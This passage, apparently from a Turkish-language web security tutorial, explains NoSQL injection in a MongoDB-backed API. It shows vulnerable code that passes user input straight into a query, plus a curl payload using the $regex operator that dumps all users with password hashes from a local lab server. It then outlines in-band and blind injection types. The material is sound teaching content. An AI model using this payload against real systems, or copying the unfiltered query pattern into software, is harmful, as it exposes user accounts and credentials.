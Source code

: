 Biz `/api/v1/getUser` endpoint'ini `{“username”: “gerald1992"}` şeklinde gönderdik ve sunucu bunu kullanarak `db.users.find({username: ‘gerald1992’})` sorgusunun tamamını oluşturdu ve sonuçları bize döndürdü.

Sorun, sunucunun herhangi bir filtre veya kontrol olmaksızın `username` sorgusu olarak verdiğimiz her şeyi körü körüne kullanmasıdır. Aşağıda `NoSQL injection`'a karşı savunmasız olan bir kod örneği bulunmaktadır:

```javascript
...
.find({username: req.body['username']});
...
```

Bu injection açığından yararlanmanın basit bir örneği, sunucuyu tüm kullanıcıların (kullanıcı adları `/.*/` ile eşleşen) bilgilerini döndürmeye zorlamak için önceki bölümde açıklanan `$regex` operatörünü kullanmaktır:

```shell-session
[!bash!]$ curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": {"$regex": ".*"}}' | jq

[
  {
    "_id": "63667302b7417b0045435139",
    "username": "bmdyy",
    "password": "f25a2fc72690b780b2a14e140ef6a9e0",
    "role": 0,
    "email": "[email]"
  },
  {
    "_id": "63667326b7417b004543513a",
    "username": "gerald1992",
    "password": "0f626d75b12f77ede3822843320ed7eb",
    "role": 1,
    "email": "[email]"
  }
]
```


### NoSQL Injection Türleri

Eğer **SQL injection** konusunda bilginiz varsa, karşılaşabileceğimiz farklı **injection** türlerine zaten aşinasınızdır:

- **`In-Band:`** Saldırganın aynı iletişim kanalını kullanarak bir **NoSQL injection** gerçekleştirdiği ve sonuçları aldığı durumdur. Yukarıdaki senaryo buna bir örnektir.

- **`Blind:`** Saldırganın **NoSQL injection** sonucunda doğrudan bir yanıt almadığı, ancak sunucunun tepkisine dayanarak sonuçları çıkarım yapabildiği durumdur.

	- **`Boolean:`** **Blind injection**'ın bir alt türüdür. Saldırganlar, sunucuya bir **query** çalıştırarak **True** veya **False** sonucuna göre farklı bir yanıt dönmesini sağlar.

	- **`Time-Based:`** **Blind injection**'ın diğer bir alt türüdür. Saldırganlar, sunucunun belirli bir süre boyunca yanıt vermemesini sağlayarak **query**'nin **True** veya **False** olarak değerlendirildiğini anlamaya çalışır.
